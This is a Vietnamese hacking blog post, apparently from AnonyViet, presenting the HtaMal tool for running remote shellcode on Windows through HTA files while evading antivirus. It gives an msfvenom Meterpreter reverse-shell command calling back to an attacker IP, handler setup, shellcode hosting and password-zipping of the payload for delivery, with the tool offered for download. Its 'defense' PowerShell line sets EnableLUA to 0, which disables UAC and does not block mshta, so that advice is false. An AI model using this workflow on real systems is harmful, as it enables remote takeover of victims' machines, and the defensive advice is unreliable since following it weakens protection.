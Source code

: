 # Htamal: kỹ thuật thực thi shellcode từ xa vượt qua phát hiện của Antivirus

Tác giả: Hevin  
Chuyên mục: Basic Hacking  
Ngày đăng: 10/02/2025

Việc thực thi mã độc mà không bị phát hiện bởi các phần mềm diệt virus (Antivirus) là một thách thức không nhỏ đối với cả bên tấn công lẫn phòng thủ. Hôm nay, chúng ta sẽ khám phá một công cụ mang tên **HtaMal**, một phương pháp sáng tạo cho phép thực thi **shellcode từ xa** trong môi trường Windows, đồng thời **vượt qua các cơ chế phát hiện của Antivirus** một cách hiệu quả. Kỹ thuật này lợi dụng **HTA (HTML Application) và JavaScript**, cho phép kẻ tấn công tải và thực thi shellcode trực tiếp từ xa, từ đó giảm thiểu khả năng bị phát hiện.

**_Lưu ý: Bài viết này chỉ dành cho mục đích nghiên cứu, học tập. Anonyviet sẽ không chịu bất cứ mọi hành vi bất hợp pháp nào !_**

## **Khái niệm ngắn gọn về HTA và phương thức tấn công**

### **HTA là gì?**

HTA (HTML Application) là một loại ứng dụng dựa trên HTML do Microsoft phát triển, có thể thực thi trực tiếp thông qua **mshta.exe** mà không bị hạn chế bởi sandbox của trình duyệt. Chính vì thế HTA trở thành một công cụ hữu ích cho các tác vụ tự động hóa hợp pháp, nhưng cũng là một công cụ lợi hại trong tay hacker

### **Tại sao HTA có thể bị lạm dụng?**

- **Chạy với quyền cao**: HTA có thể thực thi **VBScript/JavaScript** với quyền của người dùng mà không cần hiển thị cửa sổ cảnh báo như khi chạy script thông thường
- **Không cần ghi file**: Hacker có thể tải HTA từ xa mà không cần lưu trữ nội dung độc hại trên máy nạn nhân
- **Bỏ qua một số giải pháp bảo mật**: Một số phần mềm Antivirus không quét HTA kỹ như các file thực thi khác (.exe, .dll), tạo ra cơ hội bypass

## **Cách thức hoạt động của payload HtaMal**

HtaMal là một công cụ tạo ra 1 payload **HTA để thực thi shellcode từ xa**, giúp tránh bị phát hiện bởi Antivirus. Quy trình tổng quát như sau:

**Tạo file HTA chứa mã JavaScript độc hại**

- Trong source code của tool mình đã xáo trộn payload ở trang https://obfuscator.io/, bạn có thể xem các source code của payload ở phần cuối trong source tool
- Payload của HtaMal sẽ chuyển tên file, url và lệnh thực thi sang hex và 2 tệp: **autoit.exe và loader.a3x** được mã hóa bằng thuật toán XOR. Khi payload thực thi trên máy nạn nhân, nó sẽ tự giải mã và thực thi lệnh trong thư mục %appdata%

**Tải shellcode từ máy chủ C2:** Khi người dùng mở file HTA, script **loader.a3x** sẽ lấy shellcode từ server của hacker

**Lợi dụng chữ ký số (Digital Signature) hợp lệ của file autoit.exe để bypass Antivirus**

- Mình đã compile script loader.au3 sang loader.a3x, khi chạy lệnh **autoit.exe loader.a3x <hex_url_shellcode>** thực hiện **tải xuống và thực thi shellcode từ xa**, bằng cách sử dụng các hàm Windows API để cấp phát bộ nhớ, sao chép shellcode vào vùng nhớ đã cấp phát, sau đó tạo một luồng mới để thực thi shellcode.
- Một trong những kỹ thuật **Bypass Antivirus (AV)** phổ biến là **lợi dụng chữ ký số hợp lệ của phần mềm hợp pháp** để thực thi mã độc. Trong trường hợp này, mình đã **lợi dụng AutoIt.exe có chữ ký số hợp lệ** để tránh bị phát hiện bởi phần mềm bảo mật

## **HtaMal – Công cụ tạo payload thực thi Shellcode từ xa Bypass Antivirus**

Để sử dụng công cụ này, bạn cần phải tải Python về máy, sau đó tải source code của tool tại đây, sau khi tải xong bạn giải nén ra và trải nghiệm thôi ( Pass giải nén: anonyviet.com )

Trước khi sử dụng HtaMal, chúng ta cần phải tạo ra một shellcode, ở đây mình sẽ sử dụng Metasploit để tạo với câu lệnh:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.1.33 lport=8443 -f raw -o shellcode.bin
```

### Setup môi trường lệnh tấn công

```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost=your ip address
set lport=your port
run
```

Tiếp đến, chạy lệnh `python3 -m http.server 80` để mở ra server lưu trữ file **shellcode.bin** và `python3 htamal.py` để chạy tool. Bây giờ mình sẽ nhập url chứa shellcode của mình

Như vậy đã xong, bây giờ mình sẽ nén payload **hta_payload.hta** thành file zip với mật khẩu là 123123@

## **Cách phòng chống tấn công bằng HTA**

Do mshta.exe hiếm khi cần thiết trong môi trường doanh nghiệp, chặn mshta.exe là một cách đơn giản để giảm nguy cơ bị tấn công. Có thể thực hiện bằng cách:

```powershell
Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Policies\System" -Name "EnableLUA" -Value 0
```

Hoặc trong Group Policy:

- **Computer Configuration → Windows Settings → Security Settings → Software Restriction Policies**
- Thêm **mshta.exe** vào danh sách bị chặn

## **Kết luận**

HtaMal là một công giúp tạo payload thực thi shellcode từ xa, sử dụng các kỹ thuật **bypass Antivirus (AV)** để tránh bị phát hiện. Bằng cách kết hợp **HTA (HTML Application)** với **AutoIt**, công cụ này có thể thực thi mã độc trực tiếp trong bộ nhớ. Tuy nhiên, điều quan trọng cần nhấn mạnh là **HtaMal chỉ được sử dụng cho mục đích nghiên cứu bảo mật và kiểm thử xâm nhập hợp pháp**.

Để phòng chống các kỹ thuật bypass AV như HtaMal, cần phải:

🔹 Giám sát tiến trình đáng ngờ, đặc biệt là AutoIt.exe.

🔹 Hạn chế thực thi HTA trên hệ thống nếu không cần thiết.

🔹 Áp dụng các cơ chế bảo vệ nâng cao như Application Whitelisting, AMSI Logging, và Behavioral Analysis.

---

*Nguồn: AnonyViet - https://anonyviet.com/htamal-ky-thuat-thuc-thi-shellcode/*